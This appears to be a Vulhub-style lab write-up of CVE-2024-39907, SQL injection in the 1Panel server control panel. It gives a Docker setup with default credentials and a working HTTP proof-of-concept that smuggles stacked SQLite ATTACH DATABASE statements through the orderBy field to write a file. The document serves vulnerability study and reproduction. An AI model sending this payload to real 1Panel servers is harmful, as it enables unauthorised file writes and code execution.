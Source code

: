 # CVE-2024-39907: In-Depth Analysis of SQL Injection Vulnerability in 1Panel Control Panel

CVE-2024-39907 is a critical security vulnerability affecting the 1Panel server management control panel, involving multiple SQL injection points that could lead to remote code execution (RCE). Below is a detailed technical analysis of this vulnerability.

## Vulnerability Overview

CVE-2024-39907 is a collection of multiple SQL injection vulnerabilities present in the 1Panel control panel. These vulnerabilities exist across several interfaces of 1Panel, where insufficient filtering could allow attackers to achieve arbitrary file writes and ultimately remote code execution (RCE)12.

1Panel is a web-based Linux server management control panel that provides a graphical interface for server administration. This vulnerability affects 1Panel v1.10.9-lts and earlier versions, and has been patched in v1.10.12-tls2.

Reference links:

- [nuclei-templates/http/cves/2024/CVE-2024-39907.yaml at main · projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml)
- https://hub.docker.com/r/moelin/1panel

## Vulnerability Environment

Execute the following command to start a vulnerable instance of 1Panel v1.10.10-lts:

```
docker compose up -d
```

- Default port: `10086`
- Default username: `1panel`
- Default password: `1panel_password`
- Default entrance: `entrance`

Then access `http://your-ip:10086/entrance` to see the login page and log in using the default credentials.

## Vulnerability Reproduction

The vulnerability primarily exists in the API interfaces of 1Panel, particularly the `/api/v1/hosts/command/search` endpoint. Attackers can trigger SQL injection by carefully crafting request parameters2.

A typical proof-of-concept (PoC) request is as follows:

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: 192.168.8.128:8877
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Referer: http://192.168.8.128:8877/aaa
Accept-Encoding: gzip, deflate
Cookie: psession=you-session
Connection: close
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

This attempts to create a database file to confirm whether the injection is successful.

![image-20250618234105405](https://github.com/vulhub/vulhub/1panel/CVE-2024-39907/1.png)

## Limitations and Considerations

1. **Valid session required**: As shown by the `psession=you-session` cookie, the attacker must first obtain valid authentication credentials.
2. **SQLite-specific syntax**: This PoC uses SQLite-specific commands, indicating that the 1Panel backend uses SQLite database.
